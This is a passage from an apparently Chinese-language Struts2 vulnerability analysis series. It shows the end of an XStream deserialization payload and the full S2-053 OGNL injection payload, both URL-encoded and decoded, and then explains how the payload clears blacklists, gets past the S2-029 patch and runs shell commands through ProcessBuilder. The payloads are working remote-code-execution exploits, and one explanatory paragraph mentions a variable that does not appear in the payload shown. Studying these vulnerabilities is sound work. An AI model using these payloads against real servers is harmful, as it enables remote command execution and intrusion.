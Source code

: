 ```java
        </jdk.nashorn.internal.objects.NativeString>
        <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
    </entry>
    <entry>
        <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
        <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    </entry>
</map>          
```

> 漏洞原理是XStream的反序列化,详情可参考[Xstream反序列化漏洞](https://www.anquanke.com/post/id/204314),就不再深入分析了.

## S2-053

```java
%25%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23_memberAccess%3F(%23_memberAccess%3D%23dm)%3A((%23container%3D%23context%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ognlUtil%3D%23container.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ognlUtil.getExcludedPackageNames().clear()).(%23ognlUtil.getExcludedClasses().clear()).(%23context.setMemberAccess(%23dm)))).(%23cmd%3D'whoami').(%23iswin%3D(%40java.lang.System%40getProperty('os.name').toLowerCase().contains('win'))).(%23cmds%3D(%23iswin%3F%7B'cmd.exe'%2C'%2Fc'%2C%23cmd%7D%3A%7B'%2Fbin%2Fbash'%2C'-c'%2C%23cmd%7D)).(%23p%3Dnew%20java.lang.ProcessBuilder(%23cmds)).(%23p.redirectErrorStream(true)).(%23process%3D%23p.start()).(%40org.apache.commons.io.IOUtils%40toString(%23process.getInputStream()))%7D%0A
```

url解码后:

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

> 可以看到这个payload和S2-045也是很类似的

> 可以看到payload中连接每个表达式的不再是','而变成了'.',是因为S2-029的补丁把ATSSequence树给禁了,而用','连接生成的AST树都是ATSSequence树,之所以使用'.'就是为了绕过S2-029的补丁.

> Struts2 2.3.30(2.5.2)之后的版本,之前payload使用的_memberAccess和DefaultMemberAccess都进入到黑名单中了,覆盖的方法看似就不行了.S2-045的payload提供了一种新的方法.通过container获取了OgnlUtil实例,再使用 clear方法清空excludedClasses、excludedPackageNames,然后setMemberAccess方法设置默认的memberAccess来覆盖_memberAccess.

> payload首先定义#fuck='multipart/form-data'是为了满足漏洞的触发条件,详情可见S2-045的漏洞分析文章.然后调用ognl.OgnlContext的DEFAULT_MEMBER_ACCESS属性来获取DefaultMemberAccess实例.然后利用一个三元表达式,可看到#_memberAccess初始为空所以执行:后面的内容.:后面的内容首先获取一个container的实例,然后调用这个实例的getExcludedPackageNames和getExcludedClasses的clear方法来清空黑名单,然后再设置setMemberAccess为DefaultMemberAccess实例.之后定义要执行的命令字符串,之后调用java.lang.System的getProperty方来判断操作系统类型,如果是windows操作系统,调用cmd.exe /c 来执行命令,如果不是windows系统,则使用/bin/bash -c 执行命令,接下里的输出执行命令结果的流程就和S2-001的输出命令执行结果的流程类似了.以这个#cmds参数构造了一个ProcessBuilder对象,然后设置ProcessBuilder对象的redirectErrorStream属性为true,然后调用start方法新建一个进程执行命令.之后在获取一个org.apache.struts2.ServletActionContext类的getResponse对象来获取输出流,用于处理response.然后以这个getResponse对象和#process为参数调用org.apache.commons.io.IOUtils的copy方法把执行命令的结果发送到缓冲区,最后输出缓冲区的内容.
